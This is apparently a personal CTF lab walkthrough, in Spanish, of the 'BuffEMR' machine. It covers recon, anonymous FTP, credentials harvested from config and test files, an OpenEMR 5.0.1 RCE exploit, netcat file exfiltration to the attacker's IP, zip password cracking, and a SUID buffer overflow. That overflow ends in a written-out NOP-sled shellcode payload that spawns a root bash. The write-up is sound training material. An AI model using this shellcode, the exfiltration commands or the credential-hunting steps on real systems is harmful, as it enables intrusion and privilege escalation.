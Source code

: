 # BuffEMR

Tags: [[_infoLeakage]],[[_webExploitation]],[[_bof]],[[_analysis]]

1.-
Primero la fase de reconocimiento.
La máquina responde, ttl=64, posible máquina Linux.

Procedo a crear mis directorios de trabajo.
Empiezo con la fase de NMAP.
Y con los puertos abiertos detectados, vamos a hacer un escaneo exhaustivo de los puertos.
Con el archivo de dicho escaneo, vamos a comenzar a ver vulnerabilidades, etc.

Está activo ftp, ssh, http
Antes que nada buscamos el codename:
Bionic, aunque luego lo vemos.

Veamos la web.
Es la página default de Apache

Podríamos:
+ Fuzzear por URIs (buscar archivos de Apache, como Logs).


2.-

No tengo credenciales para ftp, ssh
Pero entrando como anonymous en ftp, se puede.
Hay un directorio, un archivo y otro dir.

Con get, me descargo el README, hay muchos en el otro dir, es cuestión de husmear. Pero nos traemos todos mejor.
Como a parte hay directorios dentro de directorios, hacemos:
tree -L 2

Hay un comprimido curioso.
./contrib/zirmed.tar.gz

NOTA. No haber investigado qué es OPENEMR.
Aunque claro, no fuzzee.

En la web, ponemos /openemr y nos redirige a una página.
Donde pide credenciales.
Podemos probar contras por defecto. Pero vemos que no.

Así que volvamos a los recursos descargados y echemos un vistazo a todo.
Así que buscamos archivos que tengan de nombre config
find \-name \*conf\* 2>/dev/null

./Documentation/privileged_db/secure_sqlconf.php
Este archivo tiene cositas.
Dice de un puerto 3306, pero externamente no está abierto.
Dice de login y de pass, y de una dbase.
TENERLO EN MENTE, vamos a seguir buscando.

./sites/default/sqlconf.php
Uy este otro tiene cositas también.
Es de config de MySQL

Así que busquemos otros archivos.

Algunas credeciales a futuro:
stiltskin:adminPass


En el archivo 
./tests/test.accounts
Está.
admin:Monster123
Entramos a la página OPENEMR.

OPENEMR tiene la version v5.0.1
Buscamos en searchsploit
Hay uno que da justo a la versión.
RCE, sin y autenticado, yo ya estoy autenticado.

Le pasamos lo que nos pide, y es con python 2.7

PUES HASTA QUE TENGA EL PYTHON2.7 NO PODRÉ SEGUIR.
(Ya quedó según)

OK.
Primero fue isntalar pyenv, luego python2.7.16
Se asigna lo que nos pide en la zshrc
Luego se instala en el root también
Luego se instala las librerías necesarias, solo necesité instalar requests: 
pip install requests :    esto en el usuario normal, pero también en root.


NO SE HIZO
Y ya pude ejecutar el programa.
![[Pasted image 20240424032948.png]]
El 11 lo instalé yo con: apt-get install openjdk-11-jdk 
![[Pasted image 20240424033017.png]]
si le hago:
file /usr/bin/java :    tiene un enlace simbólico a el 17, pero quiero que sea el 11.

LO CAMBIAMOS. Cualquier problema tengo el 17, lo vuelo a hacer.
Habiendo cambiado, se cambia sin problemas.

Ahora en la ruta de bursuite, debemos cambiar para que tome la ruta del 11.
FINNOSEHIZO.

Una vez instalado en BurpSuite, continuamos

Viendo cómo se acontece por detrás, ganamos acceso a la máquina.
Hacemos el tratamiento de la tty.

Ahora toca husmear...

Hay un usuario, pero no puedo entrar.

Viendo los permisos SUID, está el pkexec, ping, 

Bueno antes que nada, vemos el codename:
bionic
Versión del kernel:
Linux 5.4.0-150-generic x86_64

Antes hay que ver en qué grupo estamos.
id
Privilegios:
sudo -l :    me pide contraseña, la proporciono y no hay nada.

Ok, yo me pondría a ver más cosas...
Podríamos checar las tareas que se están ejecutando por detrás.
De momento nada interesante en tareas cron.


Podríamos seguir enumerando el contenido de ftp.

No solo filtrar por archivos que contengan la palabra conf por ejemplo, si no también por palabras contenidas dentro de los archivos:
grep -r -iE "pass|key" :    se puede filtrar por las palabras que sean necesarias.
-iE porque estamos filtrando por varios campos.
Se puede compactar: grep -riE "pass|key"

En un archivo sql/key.sql, inserta en una tabla en campos, algunos valores.

Tenemos unas credenciales (la contraseña estaba en base64, también se debe probar):
pdfkey:san3ncrypt3d
La contraseña no es para el usuario buffemr

Hay que enumerar en la máquina...
En /var hay un comprimido .zip
Curioso, algunos archivos tiene de grupo:
whoopsie

¿Si descomprimimos el .zip nos pedirá una clave?

Primero hay que traerlo a mi máquina.
En mi máquina:
nc -nvlp 4343 > user.zip
En la máquina víctima:
nc 192.168.0.13 4343 < user.zip
Verificamos con md5sum y todo bien.

Hay que listar su contenido.
Hay un archivo.

Al extraer pide contraseña.
Probemos la que tenemos...

Primeramente juguemos con zip2jhon
Le pasamos el .zip, nos da un hash, y lo tratamos de romper offline.
Eso lo metemos en un fichero hash, y con john:
john -w:/usr/share/wordlists/rockyou.txt hash
Pero no resulta nada.

ERROR. No haber probado la contraseña pero en base64, bueno ya teniendo la original puedes pasarla a base64 tú xd.

Probamos la password en base64, y es esa.

En el fichero dice una contraseña y usuario, pero dice que solo por SSH, (aunque se puede pasar de wdata a buffemr)

Vale, proporcionando esa contraseña, al conectarme por ssh, me deja.

(NO QUITARÉ LA DE WWW-DATA, por si acaso).


Ahora toca seguir husmeando.
En downloads hay un comprimido .gz, no sé si es el mismo que vi en ftp

Estamos en algunos grupos.
Como estamos en adm, podemos listar logs del sistema.

También volvemos a buscar permisos SUID, y vemos uno nuevo al final.
/opt/dontexecute

Le hacemos un strings, pero nada interesante.

Lo ejecutamos, me pide un argumento, le metí una a e hizo algo, qué, quién sabe.

Si le meto varias 'A' seguidas me dice:
Segmentation fault (core dumped)

Se ve que es propenso a BufferOverFlow.
(Pasamos el límite del tamaño de Buffer asignado para ese argumento en dicho programa, haciendo un desbordamiento del Buffer).

Las AAA, están el el ESP (stack, la pila). Estando en el margen, todo bien.
Pero, si van incrementando las AAA, como hay otros registros, empiezo a sobrescribirlos.
Estos registros son EBP y RET(EIP), en ese orden.

Lo mejor es traerlo a mi máquina.
Checamos que no se haya visto manipulado el contenido.

Al programa le damos permisos de ejecución.

https://github.com/hugsy/gef
Instalo gef


Veo que tiene problemas con python3, lo pasamos a donde está el python2.7

Y ejecutamos el programa con gdb
gdb -q ./binary

Y a partir de aquí es darle...

El EIP contiene la dirección a donde va el flujo del programa para ejecutar las nuevas instrucciones, hago que el EIP apunte a las AAAA.

Entonces, como mis AAAA las pude poner ahí, el objetivo principal es averiguar cuál es el offset(cuántas A necesito meter para sobrescribir el EIP, y ahí poner lo que quiera).

Con esa cantidad de caracteres antes de los que se meten al EIP, antes que nada, hay que comprobarlo.

Vemos que sí, pero el flujo del programa lo redirigimos a esa dirección, pero sigue sin existir.

Checamos con checksec

Ahora, si quiero ejecutar un comando, en lugar de AAAA... meto un shellcode en un formato que se interprete a bajo nivel.
Me lo va a interpretar primero como cadena, (como checamos con checksec y ENX está deshabilitado), pero si logro que en el EIP hago que el flujo del programa vaya al inicio de la cadena que metimos antes (payload) me lo va a interpretar.


Primero vamos a meter en lugar de 512 AAAA, metemos nops, de No Operation Code, para que no me haga nada: <span style="color:#88c425">\x90</span>
Y luego un poco arriba meto el shellcode.
Para que lo desplacemos hasta donde queremos que haga algo.

OK, antes de ejecutar el shellcode, tenemos que ver de cuántos bytes es el shellcode, para eso restarle al offset.
512 - 33

El resultado son los nops y después el shellcode, vemos que sigue valiendo BBBB

Checamos con: x/300wx $esp
Y usamos una dirección.
Le damos la vuelta. En pares de 2.

$(python -c 'print "\x90"*479 + "\x6a\x0b\x58\x99\x52\x66\x68\x2d\x70\x89\xe1\x52\x6a\x68\x68\x2f\x62\x61\x73\x68\x2f\x62\x69\x6e\x89\xe3\x52\x51\x53\x89\xe1\xcd\x80" + "\xb0\xd5\xff\xff"')

Esto lo ejecutamos fuera, y obtenemos la bash como root.

Nota. Veamos [[GDB]].